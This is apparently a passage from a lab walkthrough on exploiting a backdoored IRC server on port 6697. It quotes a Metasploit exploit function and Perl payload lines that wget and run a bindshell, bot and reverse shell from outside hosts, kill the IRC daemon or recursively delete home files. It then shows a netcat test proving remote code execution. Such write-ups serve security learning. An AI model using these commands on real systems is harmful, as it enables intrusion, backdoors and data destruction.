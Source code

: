 I will ignore the windows exploit and examine the exploits for linux systems by using `searchsploit -x` to examine the code: `searchsploit -x exploits/linux/remote/16922.rb`. Towards the bottom, I see this function:

```ruby
def exploit
                connect

                print_status("Connected to #{rhost}:#{rport}...")
                banner = sock.get_once(-1, 30)
                banner.to_s.split("\n").each do |line|
                        print_line("    #{line}")
                end

                print_status("Sending backdoor command...")
                sock.put("AB;" + payload.encoded + "\n")

                handler
                disconnect
        end
```

From the function, it looks like the exploit is to connect to the port and then send "AB;" + the payload + "\n"

Examining the perl script the same way, `searchsploit -x exploits/linux/remote/13853.pl`, we can find the following at the top section

```perl
## Payload options
my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
my $payload4 = 'AB; killall ircd';
my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';
```

It appears to be sending the same payload

## Getting Shell as boba_fett

Based on what I found during the recon stage, I will just connect with `nc` and enter `AB; [some command]` and get it running. I will test with a ping and use tcpdump to listen for icmp traffic:

```
root@cyb3r:~# nc 192.168.4.132 6697
:irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
:irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;ping -c 1 192.168.4.129
:irc.TestIRC.net 451 AB;ping :You have not registered
```

And in another windows, I can see that my attacker machine receives that pings. This proves that RCE is possible.
